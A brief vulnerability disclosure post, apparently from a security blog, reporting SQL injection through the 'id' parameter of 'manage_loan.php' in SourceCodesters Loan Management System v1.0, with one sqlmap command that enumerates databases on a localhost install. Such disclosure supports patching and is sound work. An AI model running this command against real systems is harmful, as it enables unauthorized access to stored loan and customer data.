 ```yaml
---
layout: post
title: 
tags: [CVE, SQL injection]
description: "SQL injection vulnerability in 'manage_loan.php' of SourceCodesters Loan Management System v1.0."
---
```


## SQL Injection

SQL injection vulnerability in 'manage_loan.php' of SourceCodesters Loan Management System v1.0.

Vulnerable path : http://localhost/loan/manage_loan.php?id=

### Exploitation :

#### With SQLMAP

```
sqlmap -u "http://localhost/loan/manage_loan.php?id=3" --risk 3 --level 5 -v 3 -p id --dbs
```



*More informations to come*